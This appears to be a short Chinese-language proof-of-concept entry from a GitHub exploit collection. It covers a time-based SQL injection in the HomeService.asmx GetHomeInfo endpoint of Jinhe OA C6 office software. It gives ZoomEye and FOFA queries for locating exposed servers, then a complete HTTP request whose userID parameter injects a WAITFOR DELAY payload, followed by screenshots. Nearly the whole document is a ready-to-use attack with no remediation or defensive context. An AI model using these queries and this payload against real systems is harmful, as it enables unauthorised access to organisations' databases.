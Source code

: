 ## 金和OA_HomeService.asmxSQL注入

## 语法
```
zoomeye：
app:"JingHe OA C6"

fofa：
app="金和网络-金和OA"
```

## poc
```
GET /c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo?userID=1'%3b+WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```
![image](https://github.com/wy876/POC/assets/139549762/e4f93bf5-416a-4ff2-87b6-9a3fb26d048e)

![image](https://github.com/wy876/POC/assets/139549762/ee9c3d29-096d-48b8-a037-c5371867c033)
